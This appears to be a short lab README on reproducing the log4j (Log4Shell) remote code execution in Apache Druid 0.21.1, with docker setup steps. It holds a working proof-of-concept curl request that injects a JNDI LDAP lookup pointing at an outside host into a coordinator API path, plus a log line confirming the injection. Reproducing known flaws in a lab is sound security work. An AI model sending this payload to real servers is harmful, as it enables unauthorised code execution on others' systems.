

# Apache Druid log4j RCE

## vulnerable app

1. download source code
```
https://download.fastgit.org/apache/druid/archive/druid-0.21.1.zip
```
2. unzip and enter the docker dir
```
unzip druid-druid-0.21.1.zip
cd druid-druid-0.21.1/distribution/docker
```
3. start
```
docker-compose -f docker-compose.yml up
```
P.S. Druid need enough memory

## Poc

```
curl -vv -X DELETE 'http://xxxxxx:8888/druid/coordinator/v1/lookups/config/$%7bjndi:ldap:%2f%2fdruid_test.yyyyyyyy%7d'
```

Log

```
2021-12-14T15:23:26,952 WARN [qtp91273747-111] org.apache.druid.server.lookup.cache.LookupCoordinatorManager - Requested delete of tier [${jndi:ldap://localhost:1270/abc}] that does not exist!
```

I've tested it


